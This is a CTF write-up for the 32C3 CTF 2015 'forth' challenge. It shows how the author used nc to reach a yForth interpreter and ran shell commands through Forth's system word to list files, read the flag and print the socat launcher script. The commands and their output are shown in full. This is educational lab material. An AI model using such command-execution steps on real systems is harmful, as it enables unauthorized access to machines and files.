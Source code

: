 # 32C3 CTF 2015 : forth

**Category:** Pwn
**Points:** 150
**Solves:** 372
**Description:**

> Connect to 136.243.194.49:1024 and get a shell.


## Write-up

Connecting to the services with `nc` yields some important information about what type of service we are dealing with:

```bash
$ nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s
[s] error(2): unknown word.
```

Seems like [`yForth`](https://packages.debian.org/wheezy/yforth) is an interpreter for the Forth language.

Our ultimate goal is to execute commands on the machine, so we search for `execute command forth` to find [a rosetta link](http://rosettacode.org/wiki/Execute_a_system_command#Forth) that explains and lists how to execute commands in different languages, including the Forth language:

	s" ls" system

Testing this yields in an output of `ls` on the 32c3 server:

```bash
echo 's" ls" system' | nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
flag.txt  README.gpl  run.sh  yforth
ok
```

We just have to read the flag:

```bash
$ echo 's" cat flag.txt" system' | nc 136.243.194.49 1024 | tail -n+5
32C3_a8cfc6174adcb39b8d6dc361e888f17b
ok
```

PS: We can also read the contents of `README.gpl` and `run.sh` to see how the challenge is executed to test it locally:

```bash
$ echo 's" cat run.sh" system' | nc 136.243.194.49 1024 | tail -n+5
#!/bin/sh
exec socat TCP-LISTEN:1024,fork,reuseaddr EXEC:./yforth,echo=0,pty,stderr
ok
```

## Other write-ups and resources

* <https://github.com/TactiFail/CTF-Writeups/blob/master/2015/32C3/pwn/forth.md>
* <http://securityerror.github.io/blog/12292015/forth.html>
* <https://nuc13us.wordpress.com/2015/12/30/32c3-ctf-writeup-forth-150/>
* <http://nopat.ch/2015/12/30/32c3ctf-pwn-forth/>
* <http://nandynarwhals.org/2015/12/30/32c3ctf-forth-pwn-150/>
* <https://github.com/p4-team/ctf/blob/master/2015-12-27-32c3/forth_pwn_150/README.md#eng-version>
* <https://www.youtube.com/watch?v=12el1zm99e4>
* [Execute a cmd with forth](http://rosettacode.org/wiki/Execute_a_system_command#Forth)
